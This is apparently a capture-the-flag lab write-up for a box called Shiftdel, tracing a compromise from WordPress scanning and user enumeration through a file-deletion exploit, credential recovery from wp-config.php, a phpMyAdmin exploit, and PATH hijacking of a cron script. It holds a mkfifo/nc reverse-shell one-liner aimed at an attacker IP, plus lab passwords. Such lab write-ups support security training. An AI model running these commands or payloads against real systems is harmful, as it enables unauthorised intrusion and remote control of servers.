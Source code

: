 # Shiftdel

I start off by scanning for open ports:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then i go and look at the webserver and see that it's running with wordpress:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i launch a wp-scan and find the wordpress version:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and after googling we find some interesting stuff:

{% embed url="https://www.exploit-db.com/exploits/50456" %}

{% embed url="https://www.exploit-db.com/exploits/47690" %}

so i'm able to read files and apparently the onboarding page had everything i needed:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>IntraPersonalVision349</p></figcaption></figure>

So i found a password but no username that i'm sure of so i went and looked at my wpscan cheat sheets and tried to find something to enumerate users&#x20;

```
wpscan --url http://192.168.57.174 --enumerate u
```

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and i manage to login:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

so there is not much going on and the account is restrictive so the only way to go must be the version exploit we found earlier ->

While reading the code i'm starting to understand how WTF this box is and why the hell as a pentester should i break the website to get my RCE, maybe this is blackhat training IDK but whatever ->

So i needed to:

```
Usage:
  1. Login to wordpress with privileges of an author
  2. Navigates to Media > Add New > Select Files > Open/Upload
  3. Click Edit > Open Developer Console > Paste this exploit script
  4. Execute the function, eg: unlink_thumb("../../../../wp-config.php")
```

So i start off by uploading a random png to the app and editing it:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then i reload and the website is totally screwed:

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and now i can curl wp-config.php without encoding:

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1).png" alt=""><figcaption><p>wordpress:ThinnerATheWaistline348</p></figcaption></figure>

With this i'm able to login in the php my admin instance:

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I see the version and i can use this exploit:

{% embed url="https://www.exploit-db.com/exploits/50457" %}

<figure><img src="../../../.gitbook/assets/image (11) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
python2 50457.py 192.168.57.174 8888 / wordpress ThinnerATheWaistline348 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.49.57 1234 >/tmp/f'
```

<figure><img src="../../../.gitbook/assets/image (12) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Looking thought the linpeas output we spot nothing, maybe some cronjobs that are not default like the wpclean?

<figure><img src="../../../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption></figcaption></figure>

and looking at the script it's indeed the way to go:

<figure><img src="../../../.gitbook/assets/image (14) (1) (1).png" alt=""><figcaption></figcaption></figure>

the  **`PATH`** environment is vulnerable

* `~/bin` expands to `/var/www/html/wordpress/wp-content/uploads/bin` (where you have write access).
* **This means `rm` is looked up in `~/bin` before `/usr/bin/rm`!**
* If an attacker creates an **executable file named `rm`** inside `~/bin`, it will be executed **instead of the real `/usr/bin/rm`**.

and after waiting for a bit i got my reverse shell:

<figure><img src="../../../.gitbook/assets/image (15) (1) (1).png" alt=""><figcaption></figcaption></figure>
